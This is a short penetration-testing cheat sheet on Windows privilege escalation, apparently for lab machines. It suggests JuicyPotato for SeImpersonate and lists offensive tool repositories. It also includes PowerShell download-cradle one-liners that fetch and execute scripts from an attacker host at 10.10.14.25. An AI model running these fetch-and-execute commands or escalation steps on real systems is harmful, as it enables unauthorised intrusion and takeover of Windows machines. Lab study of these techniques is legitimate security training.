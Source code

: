 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```text
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```text
iex(new-object net.webclient).downloadstring('http://10.10.14.25/esc.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on meterpreter, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```text
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

